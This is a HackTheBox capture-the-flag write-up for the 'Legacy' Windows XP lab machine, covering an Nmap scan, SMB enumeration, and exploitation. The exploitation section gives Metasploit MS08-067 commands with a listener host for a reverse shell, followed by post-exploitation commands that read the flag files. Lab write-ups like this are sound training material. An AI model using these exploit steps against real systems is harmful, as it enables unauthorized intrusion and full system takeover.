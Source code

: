 ```yaml
---
lang: "en"
classoption: oneside
code-block-font-size: \scriptsize
geometry: "a4paper"
geometry: "margin=2cm"
header-includes:
  - \usepackage{float}
  - \floatplacement{figure}{H}
  - \usepackage{xcolor}
  - \hypersetup{breaklinks=true,
                bookmarks=true,
                pdftitle="Legacy",
                pdfauthor="svachal (@7h3rAm)",
                pdfsubject='Writeup for HackTheBox VM Legacy',
                pdfkeywords="oscp htb windows",
                colorlinks=true,
                linkcolor=cyan,
                urlcolor=blue}
  - \usepackage{fvextra}
  - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,breakanywhere=true,commandchars=\\\{\}}
  - \usepackage{mathtools}
---
```


# [[HackTheBox] Legacy](https://www.hackthebox.eu/home/machines/profile/2)

**Date**: 01/Nov/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [htb](https://github.com/7h3rAm/writeups/search?q=htb&unscoped_q=htb), [windows](https://github.com/7h3rAm/writeups/search?q=windows&unscoped_q=windows)  
**Tags**: [`exploit_smb_ms08_067`](https://github.com/7h3rAm/writeups#exploit_smb_ms08_067)  
**InfoCard**:  
![writeup.metadata.infocard](./infocard.png)

## Overview
This is a writeup for HTB VM [`Legacy`](https://www.hackthebox.eu/home/machines/profile/2). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:


![writeup.overview.killchain](./killchain.png)


\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Fri Nov  1 14:44:27 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.legacy/results/10.10.10.4/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.legacy/results/10.10.10.4/scans/xml/_quick_tcp_nmap.xml 10.10.10.4
Nmap scan report for 10.10.10.4
Host is up, received user-set (0.057s latency).
Scanned at 2019-11-01 14:44:28 PDT for 276s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE  SERVICE       REASON          VERSION
139/tcp  open   netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  syn-ack ttl 127 Windows XP microsoft-ds
3389/tcp closed ms-wbt-server reset ttl 127
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h59m53s, deviation: 1h24m50s, median: -4h59m53s
| nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:0c:03 (VMware)
| Names:
|   LEGACY<00>           Flags: <unique><active>
|   HTB<00>              Flags: <group><active>
|   LEGACY<20>           Flags: <unique><active>
|   HTB<1e>              Flags: <group><active>
|   HTB<1d>              Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
| Statistics:
|   00 50 56 b9 0c 03 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 40600/tcp): CLEAN (Timeout)
|   Check 2 (port 13850/tcp): CLEAN (Timeout)
|   Check 3 (port 50902/udp): CLEAN (Timeout)
|   Check 4 (port 54226/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-01T20:44:53+02:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  1 14:49:04 2019 -- 1 IP address (1 host up) scanned in 276.38 seconds

```

2\. From the Nmap scan results, we find that the target system has SMB service running and is a Windows XP system:  
``` {.python .numberLines}
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2019-11-01T20:44:53+02:00

```


### Findings
#### Open Ports
``` {.python .numberLines}
137/udp  |  netbios-ns    |  Microsoft Windows netbios-ns (workgroup: HTB)
139/tcp  |  netbios-ssn   |  Microsoft Windows netbios-ssn
445/tcp  |  microsoft-ds  |  Windows XP microsoft-ds
```

\newpage
## Phase #2: Exploitation
1\. For a Microsoft Windows XP system with open SMB, we use the MSF [MS08-067](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067) exploit `windows/smb/ms08_067_netapi` and gain a shell with elevated privileges on the target system:  
``` {.python .numberLines}
msfconsole
  use exploit/windows/smb/ms08_067_netapi
  set RHOST 10.10.10.4
  set LHOST 10.10.14.18
  show options
  exploit

```

![writeup.exploitation.steps.1.1](./screenshot01.png)  

2\. We then obtain further information about the system and read the contents of both `user.txt` and `root.txt` files to comeplete the challenge:  
``` {.python .numberLines}
ipconfig
systeminfo
dir user.txt /s /p
type "C:\Documents and Settings\john\Desktop\user.txt"
type "C:\Documents and Settings\Administrator\Desktop\root.txt"

```

![writeup.exploitation.steps.2.1](./screenshot02.png)  

![writeup.exploitation.steps.2.2](./screenshot03.png)  

![writeup.exploitation.steps.2.3](./screenshot04.png)  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
ntauth/system@LEGACY> id
NT AUTHORITY\SYSTEM
ntauth/system@LEGACY>  
ntauth/system@LEGACY> uname
Host Name:                 LEGACY
OS Name:                   Microsoft Windows XP Professional
OS Version:                5.1.2600 Service Pack 3 Build 2600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Uniprocessor Free
ntauth/system@LEGACY>  
ntauth/system@LEGACY> ifconfig
Ethernet adapter Local Area Connection:
  Connection-specific DNS Suffix  . :
  IP Address. . . . . . . . . . . . : 10.10.10.4
  Subnet Mask . . . . . . . . . . . : 255.255.255.0
  Default Gateway . . . . . . . . . : 10.10.10.2
ntauth/system@LEGACY>  
ntauth/system@LEGACY> users
Administrator
john
```

\newpage

\newpage

## Loot
### Flags
``` {.python .numberLines}
C:\Documents and Settings\john\Desktop\user.txt: e69af0e4f443de7e................
C:\Documents and Settings\Administrator\Desktop\root.txt: 993442d258b0e0..................
```

## References
[+] <https://www.hackthebox.eu/home/machines/profile/2>  
[+] <https://medium.com/@_C_3PJoe/htb-retired-box-walkthrough-legacy-147bbcc9ff02>  
